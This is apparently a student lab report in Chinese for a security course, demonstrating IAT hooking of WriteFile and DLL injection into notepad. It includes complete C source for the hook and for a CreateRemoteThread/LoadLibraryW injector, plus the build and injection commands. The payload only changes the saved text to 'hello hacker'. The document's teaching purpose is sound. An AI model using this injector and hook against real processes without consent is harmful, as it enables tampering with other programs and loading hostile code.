









# IATHook
## 实验目的
* 了解dll注入原理并将其应用
* 了解IATHook的攻击原理并进行实验
## 实验完成度
* [x] hook writefile,自己调用writefile(首先create Writefile)，使得每次写入文件时，输入的hello,变成hello hacker
* [x] 把hook writefile 写为dll，把他注入到notepad类似进程中，进行hook
## 实验步骤
### MessageBoxA实例运行
1. git仓库[下载](https://github.com/tinysec/iathook.git)IATHook的实例             
```bash
cd D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP5\IAT
git clone  https://github.com/tinysec/iathook.git      
```
2. 将文件中的readme.md复制为main.c,并且将不是代码的部分删掉，使编译能够通过
3. 使用vs的开发者工具，转到目录                  
```bash
cd D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP5\IAT\iathook
```
4. 进行编译链接，生成IAT.exe           
```bash
cl /c IATHook.c
cl /c main.c
link main.obj IATHook.obj user32.lib /out:IAT.exe
```           
              
6. 运行一下EXE,```IAT.exe```,会发现生成了两次弹窗                              
           
               
7. 新建一个工程```D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP5\Hook```
```wmain```,```iathook```和中间的```MessageBoxA```中间也下断点。执行到message，会发现这个位置改变,说明攻击的就是这里                                          
                                

### Hook WriteFile
>实验代码基于MessageBoxA()代码
1. 因为windows底下有两个notepad.exe，所以得确定他们是64位还是32位           
```bash
cd C:\Windows\System32
dumpbin /headers notepad.exe
cd C:\Windows\System32
dumpbin /headers notepad.exe
D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\IATHook\Debug
dumpbin /headers IATHook.exe
```
```windows```下面的notepad是64位的，```system32```下面的notepad是32位的,而我们所写的IATHook.exe是32位的，所以进行攻击的是32位的notepad                                                 
                               
                               
                               
2. 修改记事本的关键函数是WriteFile()函数，所以我们得自己写一个满足自己设定的writefile()函数     
```cpp
int __stdcall Fake_WriteFile(__in HANDLE fFile,
	__in LPCVOID lpBuffer,
	__in DWORD nNumberOfBytesToWrite,
	__out LPDWORD lpNumberOfBytesWritten,
	__in LPOVERLAPPED lpOverlapped)
{
	
	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
	char buff1[256] = "hello hacker";  //代替的输出话语  
	DWORD dwWrite1;
	return fnOrigin(fFile, &buff1, strlen(buff1), &dwWrite1, lpOverlapped);
}
```
3. 根据通过windebug攻击记事本的讲解中可知，我们所要攻击的writefile函数是在kernel32.dll中，所以我们也要进行进一步修改                          
```cpp
IATHook(
			GetModuleHandleW(NULL) ,
			"kernel32.dll" , 
			"WriteFile" ,
			Fake_WriteFile,
			&g_hHook_WriteFile
		);
```
4. 最后main.c代码如下，IATHook.c的代码与实例代码保持不变                             
```cpp
#include <windows.h>

#include <stdio.h>

LONG IATHook(
	__in_opt void* pImageBase ,
	__in_opt char* pszImportDllName ,
	__in char* pszRoutineName ,
	__in void* pFakeRoutine ,
	__out HANDLE* phHook
);

LONG UnIATHook( __in HANDLE hHook );

void* GetIATHookOrign( __in HANDLE hHook );

typedef int (__stdcall *LPFN_WriteFile)( __in HANDLE fFile,
	__in LPCVOID lpBuffer, 
	__in DWORD nNumberOfBytesToWrite, 
	__out LPDWORD lpNumberOfBytesWritten, 
	__in LPOVERLAPPED lpOverlapped);

HANDLE g_hHook_WriteFile = NULL;
//////////////////////////////////////////////////////////////////////////

//int __stdcall Fake_MessageBoxA( __in_opt HWND hWnd , __in_opt char* lpText , __in_opt char* lpCaption , __in UINT uType)
//{
//	LPFN_MessageBoxA fnOrigin = (LPFN_MessageBoxA)GetIATHookOrign(g_hHook_MessageBoxA);
//
//	return fnOrigin(hWnd , "hello hack" , lpCaption , uType);
//}
int __stdcall Fake_WriteFile(__in HANDLE fFile,
	__in LPCVOID lpBuffer,
	__in DWORD nNumberOfBytesToWrite,
	__out LPDWORD lpNumberOfBytesWritten,
	__in LPOVERLAPPED lpOverlapped)
{
	
	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
	char buff1[256] = "hello hacker";
	DWORD dwWrite1;
	return fnOrigin(fFile, &buff1, strlen(buff1), &dwWrite1, lpOverlapped);
}

int __cdecl wmain(int nArgc, WCHAR** Argv)
{
	do 
	{
		UNREFERENCED_PARAMETER(nArgc);
		UNREFERENCED_PARAMETER(Argv);

		IATHook(
			GetModuleHandleW(NULL) ,
			"kernel32.dll" , 
			"WriteFile" ,
			Fake_WriteFile,
			&g_hHook_WriteFile
		);
		
		
		HANDLE hFILE = CreateFile("D://YearJunior1//SoftwareProjectSecurityDevelopmentLifecycle//EXP5//Hook//Debug// 1.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

		
		char buff[256] = "hello";

		DWORD dwWrite;

		WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL); //实际记事本中显示的是hello

		UnIATHook(g_hHook_WriteFile);//攻击后显示的是hello hacker

		CloseHandle(hFILE);

		//MessageBoxA(NULL , "test" , "caption1" , 0);

		//UnIATHook( g_hHook_MessageBoxA);

		//MessageBoxA(NULL , "test" , "caption2" , 0);
	
	} while (FALSE);
	
	return 0;
}
```        
5. 代码中显示调用writefile这个函数时，输入的参数是hello，最后在记事本中显示的是hello hacker          
                               
### DLL注入——攻击记事本
1. 修改main.c的代码             
```cpp
#include <windows.h>

#include <stdio.h>

LONG IATHook(
	__in_opt void* pImageBase ,
	__in_opt char* pszImportDllName ,
	__in char* pszRoutineName ,
	__in void* pFakeRoutine ,
	__out HANDLE* phHook
);

LONG UnIATHook( __in HANDLE hHook );

void* GetIATHookOrign( __in HANDLE hHook );

typedef int (__stdcall *LPFN_WriteFile)( __in HANDLE fFile,
	__in LPCVOID lpBuffer, 
	__in DWORD nNumberOfBytesToWrite, 
	__out LPDWORD lpNumberOfBytesWritten, 
	__in LPOVERLAPPED lpOverlapped);

HANDLE g_hHook_WriteFile = NULL;
//////////////////////////////////////////////////////////////////////////

//int __stdcall Fake_MessageBoxA( __in_opt HWND hWnd , __in_opt char* lpText , __in_opt char* lpCaption , __in UINT uType)
//{
//	LPFN_MessageBoxA fnOrigin = (LPFN_MessageBoxA)GetIATHookOrign(g_hHook_MessageBoxA);
//
//	return fnOrigin(hWnd , "hello hack" , lpCaption , uType);
//}
int __stdcall Fake_WriteFile(__in HANDLE fFile,
	__in LPCVOID lpBuffer,
	__in DWORD nNumberOfBytesToWrite,
	__out LPDWORD lpNumberOfBytesWritten,
	__in LPOVERLAPPED lpOverlapped)
{
	
	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
	char buff1[256] = "hello hacker";
	DWORD dwWrite1;
	return fnOrigin(fFile, &buff1, strlen(buff1), &dwWrite1, lpOverlapped);
}

int __cdecl wmain(int nArgc, WCHAR** Argv)
{
	do 
	{
		UNREFERENCED_PARAMETER(nArgc);
		UNREFERENCED_PARAMETER(Argv);

		IATHook(
			GetModuleHandleW(NULL) ,
			"kernel32.dll" , 
			"WriteFile" ,
			Fake_WriteFile,
			&g_hHook_WriteFile
		);
		
		//
		//HANDLE hFILE = CreateFile("D://YearJunior1//SoftwareProjectSecurityDevelopmentLifecycle//EXP5//Hook//Debug// 1.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

		//
		//char buff[256] = "hello";

		//DWORD dwWrite;

		//WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL);

		//UnIATHook(g_hHook_WriteFile);

		//CloseHandle(hFILE);

		////MessageBoxA(NULL , "test" , "caption1" , 0);

		////UnIATHook( g_hHook_MessageBoxA);

		////MessageBoxA(NULL , "test" , "caption2" , 0);
	
	} while (FALSE);
	
	return 0;
}

```
2. 上个文件出错，重新建一个```D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\IATHook```          
3. 额外添加一个exp.def文件
```cpp
LIBRARY   IATHooklib
EXPORTS
   IAT(将wmain中的代码放到IAT函数中去)
```
4. 进入开发者工具
```bash
cd D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\IATHook\IATHook
cl.exe /c main.c
cl.exe /c IATHook.c

```           
3. 修改vs的几个属性                         
                               
                         
4. 生成dll```link IATHook.obj main.obj /def:exp.def```           
                             
5. 新建一个DLL注入工程```D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\DLLinject```                 
6. main.c代码
```cpp
#include <windows.h>
#include<stdio.h>
#include <tchar.h>
BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath) {

	HANDLE hProcess = NULL;

	HANDLE hThread = NULL;

	HMODULE hMod = NULL;

	LPVOID pRemoteBuf = NULL;  // 存储在目标进程申请的内存地址

	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  // 存储DLL文件路径所需的内存空间大小

	LPTHREAD_START_ROUTINE pThreadProc;


	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID))) {

		printf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());

		return FALSE;

	}

	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  // 在目标进程空间中申请内存
	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllPath, dwBufSize, NULL);  // 向在目标进程申请的内存空间中写入DLL文件的路径
	hMod = GetModuleHandle(L"kernel32.dll");
	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");  // 获得LoadLibrary()函数的地址
	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);
	CloseHandle(hProcess);
	return TRUE;

}
int _tmain(int argc, TCHAR *argv[]) {
	if (argc != 3) {
		printf(L"USAGE : %s pid dll_path\n", argv[0]);
		return 1;
	}
	if (InjectDll((DWORD)_tstol(argv[1]), argv[2]))
		printf(L"InjectDll(\"%s\") success!!!\n", argv[2]);
	else
		printf(L"InjectDll(\"%s\") failed!!!\n", argv[2]);
	return 0;
}

```
7. 将生成的dll文件拷到.exe的下面
8. 打开32位的记事本，并获得它对应的ID号，PID为8388             
                         
9. 开发者工具中               
```bash
cd D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\DLLinject\Debug

DLLinject.exe 8388 D:\YearJunior1\SoftwareProjectSecurityDevelopmentLifecycle\EXP6\DLLinject\Debug\IATHooklib.dll
```
10. 会发现输入的hello,在文件保存后，再次打开时变成了hello hacker         
                     

                               
                               
                               
                               
                               
                               
                               
                               
                               
                               
                               
                               
                               
                               
                               

## 实验结论
* AT Hook的步骤如下：
calc.exe的ImageBase的地址 -> Image_Nt_Headers地址 -> Image_Import_Descriptor结构体组成的数组的起始地址（其中存储着DLL名称，IAT数组的起始地址）-> 通过DLL名称找到user32.dll对应的Image_Import_Descriptor -> 找到对应的IAT数组起始地址 -> 遍历IAT找到SetWindowTextW对应的条目，修改其值为MySetWindowTextW
## 参考资料
* [IATHook实例仓库](https://github.com/tinysec/iathook.git)              
* [C/C++ 文件操作之CreateFile、ReadFile和WriteFile](https://blog.csdn.net/jeanphorn/article/details/44982273)
* [DLL注入练习之远程注入-CreateRemoteThread()](https://blog.csdn.net/u013565525/article/details/27585387)